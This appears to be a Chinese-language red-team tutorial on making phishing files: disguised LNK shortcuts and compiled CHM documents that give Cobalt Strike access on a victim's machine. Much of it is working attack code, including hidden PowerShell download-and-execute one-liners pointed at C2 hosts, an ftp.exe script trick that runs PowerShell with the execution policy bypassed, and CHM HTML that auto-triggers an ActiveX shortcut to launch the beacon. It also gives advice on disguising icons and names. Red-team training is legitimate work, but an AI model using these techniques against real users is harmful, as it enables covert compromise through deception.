










# 渗透测试 & 钓鱼文件

## 文档链接

### link链接

​	先在`CobaltStrike`上新建一个监听，接着选择攻击->`Web`攻击->`Web`投递，创建一个`powershell`的回连恶意链接。

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```



​	采用无参调用的方式来对`powershell`的回连恶意链接进行执行。先制作一个恶意的`dll`文件，其中的命令如下（`frp`中在语句前加`!`可以执行命令）：

```cmd
# 使用 powershell 策略中的 bypass 策略，这种方法不会改变配置或者要求写入磁盘，并且不会有任何的警告或提示，如果你使用 Unrestricted，在运行网上下载的未被签名的脚本时会有警告。
!cmd.exe /k powershell -exec bypass update.ps1
```



​	接着创建一个`ftp.exe`的快捷方式，快捷方式的起始位置留空，目标为`C:\Winodws\System32\ftp.exe -""s:winsupdate.dll`，快捷方式的图标以及名字可以进行适当的伪装。





### link快捷方式

​	先查找一下`powershell.exe`的位置，这里选择`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`。



​	依旧还是和之前一样创建一个`powershell`的回连恶意链接，创建`link`快捷方式，修改`powershell.exe`为绝对路径，快捷方式的目标为如下命令：

```shell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```



### chm文档

​	利用`EasyCHM`来创建一个`chm`文件，`chm`文档钓鱼文件制作流程为：制作`html`->制作`chm`文件->伪装->打开`chm`上线。

​	创建`html`文件，代码如下：

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec 
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=',notepad.exe'>
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​	接着利用`EasyCHM`制作`chm`文档，新建工程，工程目录选择上文`html`文件所在的文件夹。



​	点击编译，生成`chm`文件。





​	尝试利用`CobaltStrike`木马加`CHM`文件上线，和上文一样，先在`CobaltStrike`上新建一个监听，接着选择攻击->`Web`攻击->`Web`投递，创建一个`powershell`的回连恶意链接。将生成好的`powershell`命令替换掉之前的`notepad.exe`：

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec 
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=",powershell.exe,-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.103:8078/a'))">
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​	接着和上文一样的步骤编译`CHM`文件，打开运行。




